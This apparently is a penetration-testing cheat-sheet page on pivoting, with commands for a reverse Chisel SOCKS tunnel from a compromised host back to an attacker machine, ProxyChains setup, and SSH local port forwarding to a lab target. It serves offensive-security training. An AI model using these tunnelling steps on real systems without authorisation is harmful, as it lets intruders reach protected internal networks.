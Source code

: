 ```yaml
---
description: chisel, proxychains & ssh
---
```


# Proxying \ PortForwarding

## Contents:

* [Chisel](proxying-portforwarding.md#chisel-and-proxychains-tunneling-and-pivoting)
* [SSH Local Port Forwarding](proxying-portforwarding.md#ssh-local-port-forwarding)

## 🔀 Chisel & ProxyChains: Tunneling & Pivoting

Techniques: [https://attack.mitre.org/techniques/T1090/](https://attack.mitre.org/techniques/T1090/)

When working on **internal network enumeration** or **pivoting**, **Chisel** combined with **ProxyChains** allows you to **route traffic through a compromised host** and access restricted services.

***

#### **1️⃣ Attacker: Start Chisel Server**

On your **attacking machine (Kali, Parrot, etc.)**, start a **Chisel server** that listens for reverse connections:

```bash
chisel server --reverse -p 9001 --socks5 -v
```

#### **📝 Explanation**

<table><thead><tr><th>Command</th><th>Description</th><th data-hidden></th></tr></thead><tbody><tr><td><code>--reverse</code></td><td>Allows reverse tunneling (victim connects back to attacker)</td><td></td></tr><tr><td><code>-p 9001</code></td><td>Runs the Chisel server on <strong>port 9001</strong></td><td></td></tr><tr><td><code>--socks5</code></td><td>Enables a <strong>SOCKS5 proxy</strong></td><td></td></tr><tr><td><code>-v</code></td><td><strong>Verbose mode</strong> for debugging</td><td></td></tr></tbody></table>

#### **2️⃣ Configuring ProxyChains**

To tunnel traffic through the compromised host, edit **ProxyChains configuration** on the attacker’s machine:

**Edit: `/etc/proxychains.conf`**

```bash
nano /etc/proxychains.conf
```

**Scroll to the bottom and set:**

```bash
socks5 127.0.0.1 1080
```

`127.0.0.1 1080` → **SOCKS5 proxy is running locally on port 1080**

#### **3️⃣ Victim: Connect Back to Attacker**

On the **compromised target**, download and execute Chisel:

```bash
chmod +x chisel
./chisel client 10.10.14.21:9001 R:socks
```

#### **📝 Explanation**

* Connects **back to the attacker’s Chisel server (10.10.14.21:9001)**
* `R:socks` → Creates a **SOCKS proxy tunnel**

#### **4️⃣ Using ProxyChains for Access**

Once the tunnel is established, **route your tools through the compromised host** using ProxyChains.

**Example: Browse Internal Services**

```bash
proxychains firefox 127.0.0.1:8080
```

## 🔀 SSH Local Port Forwarding

#### 📌 Command

```bash
ssh -L <LOCAL_PORT>:127.0.0.1:<REMOTE_PORT> <USER>@<TARGET_IP>
```

#### 📖 Explanation

This **SSH Local Port Forwarding** command allows access to **a remote service** by tunneling it through a **local port**.

| Option                                    | Description                                                          |
| ----------------------------------------- | -------------------------------------------------------------------- |
| `-L <LOCAL_PORT>:127.0.0.1:<REMOTE_PORT>` | Sets up **local port forwarding**                                    |
| `<LOCAL_PORT>`                            | The **port on the attacker machine** where traffic will be forwarded |
| `127.0.0.1:<REMOTE_PORT>`                 | The **service running on the remote machine** that you want to reach |
| `<USER>@<TARGET_IP>`                      | The **SSH credentials** for accessing the remote system              |

#### ✔️ **Make the tunnel persistent using `-N` (no shell) and `-f` (background mode):**

```
ssh -L 8080:127.0.0.1:80 -N -f user@target.htb
```

#### 🎯 **How It Works**

1️⃣ **Creates an SSH connection** to the target machine.\
2️⃣ **Maps a local port** (`<LOCAL_PORT>`) to a **remote service** (`<REMOTE_PORT>`).\
3️⃣ **Access the remote service** by connecting to `127.0.0.1:<LOCAL_PORT>` on your machine.
